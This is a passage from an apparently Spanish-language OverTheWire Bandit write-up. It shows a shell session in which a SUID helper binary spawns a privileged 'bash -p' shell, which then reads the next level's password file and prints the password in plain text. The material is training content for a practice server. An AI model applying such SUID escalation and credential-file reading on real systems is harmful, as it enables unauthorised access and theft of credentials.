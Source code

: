 - Nos encontramos con otro permiso [SUID](https://mechitast.github.io/blog/SUID)

```shell
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id

bandit26@bandit:~$ ./bandit27-do whoami
bandit27

bandit26@bandit:~$ ./bandit27-do bash -p
bash-5.1$ ls

bash-5.1$ whoami
bandit27

bash-5.1$ cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```

---

#### Referencias

[Scripthing en Bash para Principiantes #1](https://www.youtube.com/watch?v=RUorAzaDftg&t=8718s)




